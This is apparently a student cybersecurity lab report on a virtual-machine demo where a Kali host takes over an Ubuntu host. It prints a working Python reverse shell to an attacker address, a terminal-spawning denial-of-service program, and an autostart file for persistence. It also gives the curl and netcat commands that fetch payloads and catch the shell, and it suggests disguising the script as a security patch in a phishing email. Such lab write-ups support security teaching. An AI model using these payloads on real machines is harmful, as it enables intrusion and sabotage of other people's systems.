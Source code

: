## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a web file server was also created on port 80, using the command.
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the default port, to do this it was used the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/kali-ubuntu-rs.png)

# DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created: the `dos.desktop` file is moved to `.config/autostart`, to do this the `mv` command is used, which must, however, be executed with administrator privileges, therefore using `sudo`, this implies that the attacker must know the account password. Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.

![Startup Application Preferences](images/startupapplications.png)

So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.

![DoS](images/dos.png)

Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

